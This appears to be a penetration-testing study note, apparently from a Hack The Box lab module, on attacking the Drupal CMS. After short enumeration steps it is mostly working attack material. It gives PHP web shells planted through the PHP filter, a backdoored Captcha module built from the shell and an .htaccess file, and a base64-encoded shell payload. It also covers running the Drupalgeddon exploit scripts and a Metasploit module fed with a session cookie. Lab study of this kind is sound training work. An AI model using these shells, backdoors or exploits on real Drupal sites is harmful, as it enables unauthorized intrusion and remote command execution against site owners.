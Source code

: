 ## Info

Drupal supports three types of users by default:

1. `Administrator`: This user has complete control over the Drupal website.
2. `Authenticated User`: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. `Anonymous`: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

`/node/<nodeid>`

`CHANGELOG.txt`


## Enumeration

**Checking install**

`L3pr3ch4un@htb[/htb]$ curl -s http://drupal.inlanefreight.local | grep Drupal`

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""`

**Automated scanners**

`L3pr3ch4un@htb[/htb]$ droopescan scan drupal -u http://drupal.inlanefreight.local`

## Attacking

**Code Execution**

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

From here, we could tick the check box next to the module and scroll down to `Save configuration`. 

Next, we could go to Content --> Add content and create a `Basic page`.

`<?php system($_REQUEST['cmd']);?>`

`Text format drop-down to PHP code.`

**Testing backdoor**

`[!bash!]$ curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"`

From version 8 onwards, the PHP Filter module is not installed by default.

**Alternative**

`[!bash!]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz`

Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

And repeat above steps

**Backdoor Module**

```
[!bash!]$ wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
[!bash!]$ tar xvf captcha-8.x-1.2.tar.gz
[!bash!]$ echo "<?php system(\$_GET[cmd]); ?>" > shell.php
[!bash!]$ echo -e "<IfModule mod_rewrite.c>\nRewriteEngine On\nRewriteBase /\n</IfModule>" > .htaccess
[!bash!]$ mv shell.php .htaccess captcha
[!bash!]$ tar -czvf captcha.tar.gz captcha/
```

`Manage`>`Extend`>`Install new module`

Browse to the backdoored Captcha archive and click `Install`.

`[!bash!]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?cmd=id`

## Vulnerabilities aka Drupalgeddon

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

**Drupalgeddon 1**

We could also use the exploit/multi/http/drupal_drupageddon Metasploit module to exploit this.

[!bash!]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

**Drupalgeddon 2**

Edit echo command in exploit to 

` echo "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==" | base64 -d | tee shell.php`

```
[!bash!]$ python3 drupalgeddon2.py
[!bash!]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?cmd=id
```

**Drupalgeddon 3**

`Vulnerable versions`:`Drupal 7.x,8.5.x,8.4.x`

Obtain a valid session cookie.

![](https://academy.hackthebox.com/storage/modules/113/burp.png)

Once we have the session cookie, we can set up the exploit module as follows.

```
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=<session cookie>
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
```
